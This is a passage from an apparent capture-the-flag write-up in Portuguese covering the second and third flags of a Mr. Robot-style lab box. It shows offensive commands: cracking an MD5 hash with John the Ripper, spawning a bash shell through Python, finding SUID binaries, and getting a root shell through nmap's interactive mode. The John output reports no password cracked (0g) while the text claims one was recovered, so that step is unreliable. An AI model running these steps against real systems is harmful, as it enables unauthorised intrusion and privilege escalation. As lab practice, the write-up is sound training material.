 [+] md5(strtoupper(md5($pass)))
```

E depois disso rodei o John the ripper:

```
john -wordlist=fsocity.dic m5.hash --format=Raw-MD5
```

```
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 DONE (2022-03-02 18:13) 0g/s 3300Kp/s 3300Kc/s 3300KC/s 8output..ABCDEFGHIJKLMNOPQRSTUVWXYZ
Session completed.
```

Assim, a senha descriptografada é ABCDEFGHIJKLMNOPQRSTUVWXYZ

Utilizei o seguinte comando:

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

e então eu loguei no sistema.

Achei, assim, a segunda flag

## Terceira flag

Procurei por arquivos com binários diferentes usando o comando:

```
find / -perm +6000 2>/dev/null | grep '/bin/'
```

Site gtofbins ajuda a usar ferramentas

```
/usr/local/bin/nmap --interactive
```

```
!sh
```